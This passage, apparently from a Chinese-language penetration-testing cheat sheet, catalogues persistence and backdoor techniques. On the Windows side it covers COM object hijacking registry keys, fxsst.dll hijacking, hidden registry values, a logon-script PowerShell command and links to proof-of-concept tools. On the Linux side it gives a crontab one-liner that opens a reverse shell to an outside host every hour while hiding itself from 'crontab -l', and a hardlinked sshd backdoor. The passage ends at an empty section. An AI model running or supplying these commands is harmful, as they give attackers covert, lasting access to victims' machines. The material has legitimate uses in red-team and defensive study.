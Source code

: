 利用COM组件，不需要重启系统，不需要管理员权限
通过修改注册表实现
POC：https://github.com/3gstudent/COM-Object-hijacking 
##### 25. [Hijack explorer.exe](https://3gstudent.github.io/3gstudent.github.io/Use-COM-Object-hijacking-to-maintain-persistence-Hijack-explorer.exe/)
COM组件劫持，不需要重启系统，不需要管理员权限
通过修改注册表实现
```
HKCU\Software\Classes\CLSID{42aedc87-2188-41fd-b9a3-0c966feabec1}
HKCU\Software\Classes\CLSID{fbeb8a05-beee-4442-804e-409d6c4515e9}
HKCU\Software\Classes\CLSID{b5f8350b-0548-48b1-a6ee-88bd00b4a5e7}
HKCU\Software\Classes\Wow6432Node\CLSID{BCDE0395-E52F-467C-8E3D-C4579291692E}
```
##### 26. Windows FAX DLL Injection 
通过DLL劫持，劫持Explorer.exe对`fxsst.dll`的加载
Explorer.exe在启动时会加载`c:\Windows\System32\fxsst.dll`(服务默认开启，用于传真服务)将payload.dll保存在`c:\Windows\fxsst.dll`，能够实现dll劫持，劫持Explorer.exe对`fxsst.dll`的加载
##### 27. 特殊注册表键值 
在注册表启动项创建特殊名称的注册表键值，用户正常情况下无法读取(使用Win32 API)，但系统能够执行(使用Native API)。

[《渗透技巧——"隐藏"注册表的创建》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E9%9A%90%E8%97%8F-%E6%B3%A8%E5%86%8C%E8%A1%A8%E7%9A%84%E5%88%9B%E5%BB%BA/)

[《渗透技巧——"隐藏"注册表的更多测试》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E9%9A%90%E8%97%8F-%E6%B3%A8%E5%86%8C%E8%A1%A8%E7%9A%84%E6%9B%B4%E5%A4%9A%E6%B5%8B%E8%AF%95/)
##### 28. 快捷方式后门 
替换我的电脑快捷方式启动参数
POC : https://github.com/Ridter/Pentest/blob/master/powershell/MyShell/Backdoor/LNK_backdoor.ps1
##### 29. [Logon Scripts](https://3gstudent.github.io/3gstudent.github.io/Use-Logon-Scripts-to-maintain-persistence/) 
```
New-ItemProperty "HKCU:\Environment\" UserInitMprLogonScript -value "c:\test\11.bat" -propertyType string | Out-Null
```
##### 30. [Password Filter DLL](https://3gstudent.github.io/3gstudent.github.io/Password-Filter-DLL%E5%9C%A8%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84%E5%BA%94%E7%94%A8/) 
##### 31. [利用BHO实现IE浏览器劫持](https://3gstudent.github.io/3gstudent.github.io/%E5%88%A9%E7%94%A8BHO%E5%AE%9E%E7%8E%B0IE%E6%B5%8F%E8%A7%88%E5%99%A8%E5%8A%AB%E6%8C%81/) 
##### 32. [SharPersist](https://github.com/fireeye/SharPersist/wiki)

#### Linux 
##### crontab 
每60分钟反弹一次shell给dns.wuyun.org的53端口
```
#!bash
(crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/dns.wuyun.org/53;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -
```
在dns.wuyun.org的vps上可以使用[Platypus](https://github.com/WangYihang/Platypus)来对反弹的shell进行管理
##### 硬链接sshd 
```
#!bash
ln -sf /usr/sbin/sshd /tmp/su; /tmp/su -oPort=2333;
```
链接：ssh root@192.168.206.142 -p 2333
##### SSH Server wrapper 
```
```